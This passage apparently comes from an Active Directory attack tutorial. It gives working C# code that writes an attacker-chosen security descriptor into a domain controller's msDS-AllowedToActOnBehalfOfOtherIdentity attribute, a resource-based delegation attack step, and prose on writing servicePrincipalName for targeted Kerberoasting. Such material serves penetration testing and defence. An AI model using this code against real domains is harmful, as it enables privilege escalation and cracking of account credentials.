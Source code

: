```cs
        SecurityIdentifier sid = new SecurityIdentifier(sr.Properties["objectSid"][0] as byte[], 0);
        accountSid = sid.Value;
    }

    return accountSid;
}

static void Main(string[] args)
{

    string account = "MS$"; // Change this
    string target = "DC$";  // Change this
    string sid = accountToSidLookup(account);

    RawSecurityDescriptor rsd = new RawSecurityDescriptor("O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;" + sid + ")");
    Byte[] descriptor = new byte[rsd.BinaryLength];
    rsd.GetBinaryForm(descriptor, 0);

    SearchResultCollection results;
    DirectoryEntry de = new DirectoryEntry();
    DirectorySearcher ds = new DirectorySearcher(de);

    string query = "(samaccountname=" + target + ")";
    ds.Filter = query;
    results = ds.FindAll();

    foreach (SearchResult sr in results)
    {
        DirectoryEntry mde = sr.GetDirectoryEntry();
        mde.Properties["msds-allowedtoactonbehalfofotheridentity"].Add(descriptor);
        mde.CommitChanges();
    }
}

```



## Writing to servicePrincipalName

Writing to the `servicePrincipalName` attribute is a step utilized as apart of a targeted Kerberoasting attack, where after writing to the `servicePrincipalName` attribute, any domain user has the ability to request a service ticket for the target user. This gives that domain user the potential ability to gain the accounts plaintext credentials if they're weak, due to the service ticket requested being encrypted with the target accounts hash.

Writing to the `servicePrincipalName` attribute is exactly like writing `msDs-AllowedToActOnBehalfOfOtherIdentity`, except without a large portion of the steps for gathering a valid SID. First we'll need to gather a `SearchResult` for the target object, then gather an associated `DirectoryEntry` object to interact with. Finally call the add `Add()` method just like the previous section on the specified attribute, while passing in the desired value. Finally call `CommitChanges()` to save.
